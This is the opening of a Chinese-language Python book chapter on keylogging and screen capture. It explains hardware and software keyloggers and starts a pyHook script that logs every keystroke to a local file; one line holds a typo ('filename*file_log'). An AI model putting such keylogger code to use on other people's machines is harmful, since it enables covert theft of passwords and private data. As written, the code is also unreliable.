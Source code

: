 # 第 8 章按键记录和屏幕抓取

使用 Python，我们可以以编程方式执行任务，例如捕获所有击键、捕获屏幕、记录正在运行的程序、关闭它们、监视剪贴板内容等等。黑客可能利用这些技术恶意获取受害者的私人信息，而雇主可能利用这些技术监控员工的活动。

本章涵盖的主题如下：

*   使用 Python 进行键记录
*   抓屏

# 键盘记录器

**键盘记录器**是一种实时记录或记录击键的软件或硬件设备。它们用于解决计算机和网络的技术问题。它们还可以用于监控网络和计算机的使用情况，而不需要他们的直接知识。因此，这也可能被滥用在公共计算机上，窃取密码或信用卡信息。

## 硬件键盘记录器

基于硬件的键盘记录器可以在不安装任何软件的情况下监控受害者的活动。它们很容易被检测到，因为它是一个物理设备，可能连接在计算机键盘和 USB/PS2 端口之间的某个位置。还有更先进的硬件键盘记录器，它们不在外部可见，也不依赖于任何软件。因此，任何软件都无法检测到它们。但是，硬件键盘记录器需要对受害者进行物理访问。

在无线键盘的情况下，可以通过无线嗅探器截获从键盘发送到接收器的信号。

## 软件键盘记录器

通过软件键盘记录器，我们可以从远程系统访问本地记录的击键。这可以通过将记录的击键上传到数据库或 FTP 服务器来实现。我们也可以定期将其作为电子邮件附件发送。

# 带 pyhook 的键盘记录器

要创建一个简单的键盘记录器脚本，在计算机上记录击键活动并将其存储在文本文件中，我们可以使用`pyhook`模块。这将为 Windows 系统中的全局鼠标和键盘事件提供回调。

导入所需的模块。这里，我们从 ActivePython 包导入`pyhook`和 pythoncom 模块。此脚本中使用`pythoncom`模块为当前线程泵送所有消息：

```
import pyHook, pythoncom, sys, logging 

```

定义保存日志数据的文件。（Windows 文件名使用反斜杠作为分隔符。但是，在 Python 中，反斜杠是一个转义字符，因此我们必须在路径中放置一个双斜杠“`\\`”。否则，我们可以使用 rawstring 定义文件名。）：

```
file_log='C:\\log.txt' 

```

现在我们可以定义处理每个键盘事件的函数。在这里，我们可以使用日志模块记录每个字符：

```
def OnKeyboardEvent(event): 
    logging.basicConfig(filename*file_log, level=logging.DEBUG, format='%(message)s') 
    chr(event.Ascii) 
    logging.log(10,chr(event.Ascii)) 
    return True 

```
